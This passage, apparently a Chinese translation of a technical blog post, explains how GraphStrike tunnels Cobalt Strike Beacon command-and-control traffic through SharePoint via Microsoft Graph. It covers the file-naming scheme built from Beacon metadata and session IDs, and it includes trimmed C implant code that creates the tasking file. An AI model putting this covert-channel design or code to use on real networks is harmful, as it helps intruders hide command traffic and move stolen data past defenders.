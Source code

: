 对于这个特定的 Beacon，相关信息可以总结如下：

| **条目** | **值** |
| --- | --- |
| TS 任务文件名 | AMFTYYnvh-NZ7q87nb32BV03vz-tP1vaoxmfdwKTeba6D7azteJONYntyP79j7L7-QWynYagPhJ0qgBk7albtTKi4tmJlfIBfcoVaHcmMehvzQcZar1OC1hQj64cXfBDSRs-u2Sp9P0GNglZejsQ7BcCA-3cirbd0wInvbhStW0 |
| Beacon 输出文件名 | AMFTYYnvh-NZ7q87nb32BV03vz-tP1vaoxmfdwKTeba6D7azteJONYntyP79j7L7-QWynYagPhJ0qgBk7albtTKi4tmJlfIBfcoVaHcmMehvzQcZar1OC1hQj64cXfBDSRs-u2Sp9P0GNglZejsQ7BcCA-3cirbd0wInvbhStW0pD9-tK1123716960 |
| Beacon 元数据 | AMFTYYnvh-NZ7q87nb32BV03vz-tP1vaoxmfdwKTeba6D7azteJONYntyP79j7L7-QWynYagPhJ0qgBk7albtTKi4tmJlfIBfcoVaHcmMehvzQcZar1OC1hQj64cXfBDSRs-u2Sp9P0GNglZejsQ7BcCA-3cirbd0wInvbhStW0 |
| 分隔符 | pD9-tK |
| Beacon 会话 ID | 1123716960 |

通过这样组织事情，我们：

1.  将所需的 Beacon 元数据和会话 ID 与每个 http-get 和 http-post 请求相关联。
2.  可以将 SharePoint 中的 TS 任务文件和 Beacon 输出文件关联为属于同一 Beacon（因为在两个文件名中都可以找到 Beacon 元数据）。

为了将其映射到 Beacon 的 HTTP 事务，Beacon 将向 TS 任务文件发出 http-get 请求以下载文件内容。对 http-get 的服务器响应来自托管 SharePoint 文件（而不是 TS）的 Microsoft 服务器，并包含之前由 GraphStrike 服务器上传的 TS 任务。由于 Beacon 的独特元数据用作文件名，GraphStrike 知道 Cobalt Strike 中发布的针对该特定 Beacon 的所有任务都应上传到治理。

当 Beacon 获得任务输出时，它会启动 http-post 循环，将数据上传到 Beacon 输出文件。Beacon 实际上并不对 http-post 请求的服务器输出做任何事情，也不关心服务器输出，因此我们可以简单地丢弃 Microsoft 服务器响应此请求的内容。然后，GraphStrike 服务器可以下载 Beacon 输出文件中存储的数据，通过按预定义的分隔符拆分来查找文件名中的 Beacon 会话 ID，然后将此数据传送到 TS 进行处理。

Beacon 负责在 SharePoint 中创建这两个文件，因为它的元数据和会话 ID 是在运行时确定的。执行此操作的代码也驻留在 HttpOpenRequestA\_Hook 函数中，并且在逻辑上是有限制的，因此 Beacon 只能在 SharePoint 中创建一次新文件；TS Tasking 文件是在第一个 http-get 循环中创建的，而输出文件则是在第一个 http-post 循环中创建的。

TS 任务文件创建：

```plain
... Trimmed for Brevity ...

// If this is the first GET request for the Beacon, we need to create the TS output file for the Beacon to read from. 
if (pMemAddrs->firstGet)
{
    // ------------------------------------ Upload new file for TS tasking ---------------------------------------

    // Assemble URI to create new file in SharePoint using the Beacon metadata as a name
    tempUri = C_PTR ( pMemAddrs->Api.msvcrt.calloc(1000, sizeof(char)) );
    LPCSTR fileName = pMemAddrs->Api.msvcrt.strstr(lpszObjectName, HTTP_GET_PREFIX ) + pMemAddrs->Api.msvcrt.strlen(HTTP_GET_PREFIX);
    pMemAddrs->Api.msvcrt.sprintf(tempUri, C_PTR ( OFFSET ( "%s/root:/%s:/content" ) ), SHAREPOINT_ADDRESS, fileName );

    // Store metaData to be used later to create the Beacon output channel as well 
    pMemAddrs->metaData = (char*)pMemAddrs->Api.msvcrt.calloc(pMemAddrs->Api.msvcrt.strlen(fileName) + 1, sizeof(char));
    pMemAddrs->Api.msvcrt.strcpy(pMemAddrs->metaData, fileName);

    response = MakeWebRequest(pMemAddrs->hInternet, GRAPH_ADDRESS, tempUri, PUT_VERB, pMemAddrs->httpPostHeaders, NULL, pMemAddrs );
    if (!response)
        return INVALID_HANDLE_VALUE;

    // Parse out fileId from response
    ParseValue((char*)response, (char*)C_PTR ( OFFSET ( "id\":\"" ) ), id, 100, FALSE, pMemAddrs);

    // Assemble httpGetUri that will be used for subsequent Beacon comms
    reqSize = pMemAddrs->Api.msvcrt.strlen(SHAREPOINT_ADDRESS) + pMemAddrs->Api.msvcrt.strlen(id) + pMemAddrs->Api.msvcrt.strlen(C_PTR ( OFFSET ( "/items//content" ) ) + 1);
    pMemAddrs->httpGetUri = pMemAddrs->Api.msvcrt.calloc(reqSize, sizeof(char));
```